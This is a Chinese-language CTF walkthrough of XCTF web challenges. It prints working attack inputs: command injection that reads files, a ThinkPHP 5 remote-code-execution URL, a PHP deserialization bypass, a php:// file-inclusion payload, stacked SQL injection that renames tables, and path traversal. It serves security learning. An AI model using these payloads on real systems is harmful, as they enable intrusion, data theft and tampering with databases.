

### Web新手练习区

#### view_source

- 打开题目，根据提示尝试鼠标右键查看源码，发现右键失灵。

- 使用Chrome浏览器，按F12打开开发者工具，查看Sources，即得flag。

  

####  robots

- 根据提示，这是一道和Robots协议有关的题目。

- 查阅资料，看一看什么是Robots协议。发现这个协议关键就是在网站根目录下存在一个`robots.txt`文件。

- 查看这个文件：`题目地址+/robots.txt`

  ```
  User-agent: *
  Disallow: 
  Disallow: f1ag_1s_h3re.php
  ```

- 发现一个含有flag的php文件。查看这个文件即得flag：`题目地址+/f1ag_1s_h3re.php`

#### backup

- 打开题目，它问你`index.php`的备份文件名，猜测是`index.php.bak`。`题目地址+/index.php.bak`会自动下载这个文件。

  

- 命令行直接查看这个文件，即得flag。

  ```html
  <html>
  
  <head>
      <meta charset="UTF-8">
      <title>备份文件</title>
      <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
      <style>
          body{
              margin-left:auto;
              margin-right:auto;
              margin-TOP:200PX;
              width:20em;
          }
      </style>
  </head>
  <body>
  <h3>你知道index.php的备份文件名吗？</h3>
  <?php
  $flag="Cyberpeace{855A1C4B3401294CB6604CCC98BDE334}"
  ?>
  </body>
  ```

#### cookie

- 打开题目，使用开发者工具，查看Cookies。

  

- 查看`cookie.php`：`题目地址+/cookie.php`。根据页面提示，查看http response，即得flag。

  

#### button

- 查看前端页面源码，将disabled删除，button就能正常使用。点击button，即得flag。

  

#### weak_auth

- 打开题目，是一个登录页面，用户名和密码随便输入，看看有什么提示 。

  

- 他会弹窗提示你用户名是admin。看题目weak_auth，应该是简单的密码，尝试输入123456，即得flag。

#### simple_php

- 打开题目，审计代码。

  ```php
  <?php
  show_source(__FILE__);
  include("config.php");
  $a=@$_GET['a'];
  $b=@$_GET['b'];
  if($a==0 and $a){
      echo $flag1;
  }
  if(is_numeric($b)){
      exit();
  }
  if($b>1234){
      echo $flag2;
  }
  ?>
  ```

- 这段代码的意思是 ，以GET方式获得两个参数a和b，如果a和b满足一定条件，则打印flag1和flag2。

  - a的条件是既要为0，又要为真，所以`a=0a`
  - b的条件是既要大于1234，又不能是数字，所以`b=1235a`

- 综合a、b，url为`题目地址+?a=0a&b=1235a`，即得flag。

#### get_post

- 打开题目，按照提示，先发一个GET请求：`题目地址/?a=1`

  

- 然后再发一个POST请求。打开「Burpsuite」，将上一步的GET请求发送到「Repeater」中，修改包内容如下，然后点击「Send」重放，即得flag。

  

- 重点在于在包头部添加`Content-Type: application/x-www-form-urlencoded`，服务器才能识别POST提交的数据 。

#### xff_referer

- 使用「Burpsuite」抓包，将包发送至「Repeater」，根据提示在header中添加`X-Forwarded-for: 123.123.123.123`，发送。

  

- 可以看到右边出现新的提示：必须来自 goole.com。故在hearder中添加`Referer: https://www.google.com`，发送，即得flag。

  

#### webshell

- 打开题目，看提示，这是一道webshell的题。

  

- 使用中国蚁剑连接，密码是`shell`。

  

- 连接成功后，可以看到`flag.txt`，打开即得flag。

  

#### command_execution

- 打开题目，在输入框中填入`127.0.0.1`，PING一下。

  

- 在输入框中填入`127.0.0.1;ls`，查看网站根目录下的文件。

  ```
  ping -c 3 127.0.0.1;ls
  PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
  64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms
  64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.058 ms
  64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.047 ms
  
  --- 127.0.0.1 ping statistics ---
  3 packets transmitted, 3 received, 0% packet loss, time 2003ms
  rtt min/avg/max/mdev = 0.047/0.059/0.072/0.010 ms
  index.php
  ```

- 在输入框中填入`127.0.0.1;ls ../../../`，查看`/`目录下的文件。

  ```
  ping -c 3 127.0.0.1;ls ../../../
  PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
  64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.038 ms
  64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.054 ms
  64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.035 ms
  
  --- 127.0.0.1 ping statistics ---
  3 packets transmitted, 3 received, 0% packet loss, time 1999ms
  rtt min/avg/max/mdev = 0.035/0.042/0.054/0.009 ms
  bin
  boot
  dev
  etc
  home
  lib
  lib64
  media
  mnt
  opt
  proc
  root
  run
  run.sh
  sbin
  srv
  sys
  tmp
  usr
  var
  ```

- 在输入框中填入`127.0.0.1;ls ../../../home`，查看`/home`目录下的文件。

  ```
  ping -c 3 127.0.0.1;ls ../../../home
  PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
  64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.068 ms
  64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.048 ms
  64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.057 ms
  
  --- 127.0.0.1 ping statistics ---
  3 packets transmitted, 3 received, 0% packet loss, time 1998ms
  rtt min/avg/max/mdev = 0.048/0.057/0.068/0.012 ms
  flag.txt
  ```

- 发现`flag.txt`。在输入框中填入`127.0.0.1;ls ../../../home/flag.txt`，查看即得flag。

  ```
  ping -c 3 127.0.0.1;cat ../../../home/flag.txt
  PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
  64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.067 ms
  64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
  64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.029 ms
  
  --- 127.0.0.1 ping statistics ---
  3 packets transmitted, 3 received, 0% packet loss, time 1998ms
  rtt min/avg/max/mdev = 0.029/0.047/0.067/0.016 ms
  cyberpeace{15e75486e7f551b1c9d30c511b7a9704}
  ```

#### simple_js

- 打开题目，随便输入密码，提示错误。

  

- 打开开发者工具，查看源代码。

  ```javascript
   <script type="text/javascript">
      function dechiffre(pass_enc){
          var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
          var tab  = pass_enc.split(',');
                  var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length; 
                          k = j + (l) + (n=0); 
                          n = tab2.length;
                          for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                  if(i == 5)break;}
                          for(i = (o=0); i < (k = j = n); i++ ){
                          o = tab[i-l];
                                  if(i > 5 && i < k-1)
                                          p += String.fromCharCode((o = tab2[i]));
                          }
          p += String.fromCharCode(tab2[17]);
          pass = p;return pass;
      }
      String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));
  
      h = window.prompt('Enter password');
      alert( dechiffre(h) );
  
  </script>
  ```

- 通过分析这段代码可以发现它只是将  `pass`  中的内容为逗号分隔的数字（ACSCII）转成相应编码的字符串。

  ```python
  s=[70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65]
  for c in s:
  	print(chr(c),end='')
  	
  FAUX PASSWORD HAHA
  ```

- 输出的字符串和提示的错误信息一致。正确的flag应该是`\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30`这一个16进制串对应的字符串。先将16进制转化为10进制（ASCII）码，在转化为字符串。

- 十进制串为`'55,56,54,79,115,69,114,116,107,49,50'`，对应的字符串为`786OsErtk12`。加上题目给出的flag格式，即为完整的flag。

### Web高手进阶区

#### baby_web

- 根据题目提示：想想初始页面是哪个，查看初始页面`index.php`。

- 发现页面刷新后还是`1.php`。打开开发者工具，查看这个过程。

  

- 发现访问初始页面`index.php`，会重定向，在Response Headers中可以看到flag。

#### Training-WWW-Robots

- 根据提示，Robots题还是先查看`robots.txt`

  ```
  User-agent: *
  Disallow: /fl0g.php
  
  
  User-agent: Yandex
  Disallow: *
  ```

- 发现`/fl0g.php`。查看即得flag。

#### Web_php_unserialize

- 打开题目，代码审计。

  ```php
  <?php 
  class Demo { 
      private $file = 'index.php';
      public function __construct($file) { 
          $this->file = $file; 
      }
      function __destruct() { 
          echo @highlight_file($this->file, true); 
      }
      function __wakeup() { 
          if ($this->file != 'index.php') { 
              //the secret is in the fl4g.php
              $this->file = 'index.php'; 
          } 
      } 
  }
  if (isset($_GET['var'])) { 
      $var = base64_decode($_GET['var']); 
      if (preg_match('/[oc]:\d+:/i', $var)) { 
          die('stop hacking!'); 
      } else {
          @unserialize($var); 
      } 
  } else { 
      highlight_file("index.php"); 
  } 
  ?>
  ```

- 从Demo类中可以看出：

  - 初始化传入值可以更改类中属性file的值
  - flag存在于`fl4g.php`中
  - 当Demo实例销毁时会高亮显示file指向的文件内容

- 传入一个`var`参数，要对这个参数先进行base64解码，然后绕过preg_match进行PHP反序列化。

- 要先对Demo类序列化。

  ```php
  <?php 
  class Demo { 
      private $file = 'index.php';
      public function __construct($file) { 
          $this->file = $file; 
      }
      function __destruct() { 
          echo @highlight_file($this->file, true); 
      }
      function __wakeup() { 
          if ($this->file != 'index.php') { 
              //the secret is in the fl4g.php
              $this->file = 'index.php'; 
          } 
      } 
  }
      $test = new Demo('fl4g.php');
      $data = serialize($test);
      echo $data;
  
  ?>
  
  // O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
  ```

- 绕过preg_match匹配，要把`O:4:`改为`O:+4:`

- 绕过__wakeup()函数，要把`"Demo":1:`改为`"Demo":2:`。这里的1，2是对象属性个数。当对象属性个数大于实际个数时，就能绕过wakeup。

- 再对`O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}`进行base64加密。

  ```python
  import base64
  s=b"""O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"""
  base64.b64encode(s)
  
  # Tzo0OiJEZW1vIjoxOntzOjEwOiJEZW1vZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
  ```

- 构造GET参数：`?var=Tzo0OiJEZW1vIjoxOntzOjEwOiJEZW1vZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`。即得flag。

#### php_rce

- 打开题目地址，发现这是一个Thinkphp5开发的，结合题目，这应该是Thinkphp远程代码执行漏洞。
- 触及知识盲区，直接查找资料：[ThinkPHP 5.x 远程命令执行漏洞分析与复现](https://learnku.com/articles/21227)

- 利用 system 函数远程命令执行。
- 查看Wp，构造payload。先查找flag文件：`index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name flag`
- 再查看flag：`index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag`

#### Web_php_include

- 打开题目，代码审计。

  ```php
  <?php
  show_source(__FILE__);
  echo $_GET['hello'];
  $page=$_GET['page'];
  while (strstr($page, "php://")) {
      $page=str_replace("php://", "", $page);
  }
  include($page);
  ?>
  ```

- GET传入page参数，page中不能包含`php://`。

- 先学习一下[php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)。

- 在这里使用`Php://`绕过strstr，构造payload。通过Burp抓包，以post方式提交`<?php system('ls')?>`，显示的结果如下：

  

- 构造payload，查看`fl4gisisish3r3.php`。即得flag。

  

#### supersqli

- 在输入框输入`1'`返回如下，证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```
  error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
  ```

- 在输入框中输入`1' order by 1#`，不报错，直到`1' order by 3#`，报出以下错误，说明列数为2。

  ```
  error 1054 : Unknown column '3' in 'order clause'
  ```

- 在输入框中输入 `1' union select 1,2#`，报出以下错误：

  ```
  return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
  ```

- 发现几乎全部关键字都给过滤，尝试使用堆叠注入。

- 在输入框中输入`1';show databases;#`，查询所有数据库：

  

- 在输入框中输入`1';show tables;#`，查询所有表：

  

- 查询两个表中所有列：发现flag在此表中。

  ```mysql
  1';show columns from `1919810931114514`;#
  ```

  

  ```mysql
  1';show columns from words;#
  ```

  

- 两表数据模式相似，尝试将两个表名字互换，直接查询`1919810931114514`表中内容：

  ```mysql
  1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#
  ```

  - 将words表名改为words1，将1919810931114514表名改为words，将现在的words表中的flag列名改为id。设置数据库的默认编码为`utf8`。

- 在输入框中输入`1' or 1=1 #`，查询flag：

  

#### ics-06

- 打开题目，发现只有云平台报表中心有数据。观察url，有参数url。

- 使用「Burpsuite」抓包，发送到Intruder，对id进行0～10000的爆破。

  

- 当id=2333时，发现包长度和其他不同，打开找到flag。

#### warmup

- 根据提示，代码审计。

- 检查页面元素，发现`source.php`

  

- 在URL后加`/source.php`，在网页上会显示源代码。审计。

- 发现`hint.php`。

  

- 在URL后加`/hint.php`，在网页上会显示:

  

- 再次审计源代码。

  

  - **必须满足if条件，才能包含file，这里也可以猜到可能考的是文件包含：**
    1. REQUEST['file']不为空
    2. REQUEST['file']是字符串
    3. checkFile($_REQUEST['file']) 为ture

- 这里回到checkFile 函数分析如何返回true。

  ```php
  public static function checkFile(&$page)
          {
              $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
              if (! isset($page) || !is_string($page)) {
                  echo "you can't see it";
                  return false;
              }
  						/*为了返回 true 两个条件必须满足
              	1 page存在 
              	2 page是字符串 ，
              	这里和外层的判断file一致*/
              if (in_array($page, $whitelist)) {
                  return true;
              }
  						/*判断传入的page或者是经过截断之后的page必须是source.php或hint.php*/
              $_page = mb_substr(
                  $page,
                  0,
                  mb_strpos($page . '?', '?')
              );
    					/*获取file两个？之间的字符串，放到url中就是http://ip/?file=xxx?中的file=xxx*/      
              if (in_array($_page, $whitelist)) {
                  return true;
              }
  
              $_page = urldecode($page); // 这里发现对_page进行了一次decode解码
              $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
              if (in_array($_page, $whitelist)) {
                  return true;
              }
              echo "you can't see it";
              return false;
          }
  ```

- 根据上面的判断构造payload。

  ```
  /source.php?file=source.php?../../../../../../../../ffffllllaaaagggg
  ```

- 在页面下方会出现flag。

  